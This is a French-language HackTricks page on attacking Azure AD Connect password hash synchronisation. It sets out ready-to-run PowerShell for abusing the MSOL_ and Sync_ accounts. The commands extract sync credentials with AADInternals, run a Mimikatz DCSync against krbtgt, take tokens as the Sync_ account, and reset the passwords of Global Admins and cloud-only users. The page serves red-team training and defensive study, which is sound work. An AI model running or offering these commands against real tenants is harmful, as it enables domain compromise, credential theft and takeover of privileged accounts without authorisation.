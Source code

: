 # Az - PHS - Synchronisation de Hash de Mot de Passe

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Informations de Base

[Dans la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La synchronisation de hash de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hash, du hash, du mot de passe d'un utilisateur d'une instance Active Directory sur site vers une instance Azure AD basée sur le cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD sur site avec Azure AD.

Tous les **utilisateurs** et un **hash des hashes de mot de passe** sont synchronisés de l'on-prem vers Azure AD. Cependant, les **mots de passe en clair** ou les **hashes** **originaux** ne sont pas envoyés à Azure AD.\
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** avec Azure AD.

La **synchronisation des hashes** se produit toutes les **2 minutes**. Cependant, par défaut, l'**expiration des mots de passe** et l'**expiration des comptes** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe sur site est expiré** (non changé) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur sur site souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **Identity Protection** et les services de domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains **comptes privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD sur site. Ce compte se voit attribuer un rôle de **Comptes de Synchronisation de Répertoire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD sur site**.
* Un compte **`Sync_<nom du serveur ADConnect sur site>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de TOUT utilisateur** (synchronisé ou uniquement cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé.** Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.\
La base de données est située dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration d'une des tables, étant l'une chiffrée :

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configuration chiffrée** est chiffrée avec **DPAPI** et elle contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD sur site et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, en compromettant ceux-ci, il est possible d'obtenir des privilèges élevés dans l'AD et dans AzureAD.

Vous pouvez trouver un [aperçu complet de la façon dont ces identifiants sont stockés et déchiffrés dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trouver le **serveur Azure AD connect**

Si le **serveur où Azure AD connect est installé** est joint au domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abus de MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces identifiants.
{% endhint %}

### Abus de Sync\_\*

En compromettant le compte **`Sync_*`**, il est possible de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les Administrateurs Globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement cloud** (même si cela est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible d'extraire le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait de **attribuer des autorisations privilégiées à un principal de service**, ce que l'utilisateur **Sync** a **la permission** de faire, puis **d'accéder à ce principal de service** comme moyen de privesc.
{% endhint %}

### SSO Transparent

Il est possible d'utiliser le SSO Transparent avec PHS, qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
